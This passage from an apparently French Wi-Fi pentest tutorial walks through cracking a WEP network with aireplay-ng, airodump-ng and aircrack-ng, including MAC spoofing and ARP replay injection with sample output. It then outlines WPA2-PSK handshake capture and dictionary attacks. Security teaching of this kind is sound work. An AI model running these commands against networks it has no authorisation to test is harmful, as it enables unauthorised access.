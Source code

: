 ### **Attaque WEP avec injection**
```bash
# Si peu de trafic naturel, forcer génération paquets

# ÉTAPE 1 : Test injection possible
sudo aireplay-ng -9 -e "AncienRouteur" -a 77:88:99:AA:BB:CC wlan1mon

# SORTIE TEST INJECTION :
14:35:12  Waiting for beacon frame (BSSID: 77:88:99:AA:BB:CC) on channel 6
14:35:12  Trying broadcast probe requests...
14:35:13  Injection is working!
14:35:13  Found 1 AP

# ÉTAPE 2 : Association fake (authentification ouverte WEP)
sudo aireplay-ng -1 0 -e "AncienRouteur" -a 77:88:99:AA:BB:CC -h 00:11:22:33:44:55 wlan1mon

# PARAMÈTRES :
# -1 0 = Fake authentication, 0 = délai re-association
# -e = Nom réseau (ESSID)
# -a = BSSID (adresse MAC point accès)  
# -h = Adresse MAC spoofée (notre carte)

# ÉTAPE 3 : Injection ARP replay (génère beaucoup trafic)
sudo aireplay-ng -3 -b 77:88:99:AA:BB:CC -h 00:11:22:33:44:55 wlan1mon

# PENDANT l'injection, dans autre terminal :
sudo airodump-ng -c 6 --bssid 77:88:99:AA:BB:CC -w wep_inject wlan1mon

# Observer colonne #Data augmenter rapidement : 100, 500, 1000, 5000...

# ÉTAPE 4 : Crack quand suffisamment paquets
aircrack-ng wep_inject-01.cap
```

## 🔐 Attaques WPA/WPA2 Personal (PSK)

### **Principe vulnérabilité WPA2-PSK**
```bash
# WPA2-PSK = WiFi Protected Access 2 - Pre-Shared Key

SÉCURITÉ WPA2 :
✅ Chiffrement fort (AES-CCMP)
✅ Clés temporelles (changent régulièrement)  
✅ Pas de IV réutilisés comme WEP

FAIBLESSE WPA2 :
❌ 4-way handshake capturables
❌ Attaque dictionnaire possible
❌ Mots de passe faibles vulnérables

MÉTHODE ATTAQUE :
1. Capturer 4-way handshake complet
2. Bruteforce offline avec dictionnaires
3. Si mot de passe simple → compromis
```

